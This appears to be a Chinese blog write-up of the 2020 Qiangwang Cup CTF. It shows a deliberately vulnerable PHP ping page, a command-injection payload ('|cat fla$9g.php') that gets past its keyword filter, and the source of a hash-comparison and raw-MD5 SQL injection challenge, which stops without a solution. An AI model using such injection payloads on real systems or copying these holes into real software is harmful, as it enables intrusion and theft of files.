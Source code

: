 ```yaml
---
layout:     post
title:      强网杯 WP
subtitle:   
date:       2020-08-30
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/background/强网杯.jpg
catalog: true
---
```


# 主动

```php
<?php
highlight_file("index.php");

if(preg_match("/flag/i", $_GET["ip"]))
{
    die("no flag");
}

system("ping -c 3 $_GET[ip]");

?> 
```

空变量绕过 

`|cat%20fla$9g.php`

[![dBTQiT.png](https://s1.ax1x.com/2020/08/24/dBTQiT.png)](https://imgchr.com/i/dBTQiT)



# Funhash

```php
<?php
include 'conn.php';
highlight_file("index.php");
//level 1
if ($_GET["hash1"] != hash("md4", $_GET["hash1"]))
{
    die('level 1 failed');
}

//level 2
if($_GET['hash2'] === $_GET['hash3'] || md5($_GET['hash2']) !== md5($_GET['hash3']))
{
    die('level 2 failed');
}

//level 3
$query = "SELECT * FROM flag WHERE password = '" . md5($_GET["hash4"],true) . "'";
$result = $mysqli->query($query);
$row = $result->fetch_assoc(); 
var_dump($row);
$result->free();
$mysqli->close();
?>
```
